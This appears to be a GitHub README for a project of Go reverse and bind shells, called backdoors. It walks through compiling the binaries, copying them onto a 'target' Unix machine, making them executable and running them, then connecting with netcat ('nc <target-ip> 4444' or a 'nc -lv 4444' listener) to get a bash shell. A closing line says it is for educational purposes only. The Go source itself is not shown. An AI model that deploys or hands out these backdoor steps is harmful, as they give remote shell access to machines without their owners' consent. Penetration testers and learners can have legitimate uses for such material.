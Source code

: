 # go-backdoors

Simple reverse and bind shells written in Go. In order to use these backdoors, you will need to have Go installed on your machine. Notice that these shells are set up to use listeners on port 4444 by default. Feel free to change the ports used in the code to suit your needs, but be sure to adjust your **Netcat** connections accordingly. 

## Bind Shell

To use this bind shell, first compile it by running:

```bash
go build bindshell.go
```

This will create an executable file called `bindshell`. Copy this file onto the target unix machine, and give it the necessary permissions:

```bash
chmod +x ./bindshell
```

Finally, run it from whatever directory it is placed in with:

```bash
./bindshell
```

This will start the bind shell listening on port 4444. To connect to it, I recommend using **Netcat**:

```bash
nc <target-ip> 4444
```

Once you have completed this, you should be presented with a basic bash shell!

## Reverse Shell

To use the reverse shell, you will follow many of the same steps as before. First compile the code with:

```bash
go build revshell.go
```

Next, copy the created executable file `revshell` to the target machine, and give it exec permissions:

```bash
chmod +x ./revshell
```

This time, we will start a listener on our own machine in order to receive a connection from the target machine. I recommend using **Netcat** for this as well:

```bash
nc -lv 4444
```

Now whenever the reverse shell is run from the target machine, you will receive a connection to your listening port on your local machine and be granted a bash shell!

*Note: This project is for educational purposes only. I do not expect it to be perfect, but if you do have any questions about it please feel free to ask. You can reach me through github (I think?) or just send me an email at nineofpine@protonmail.com*
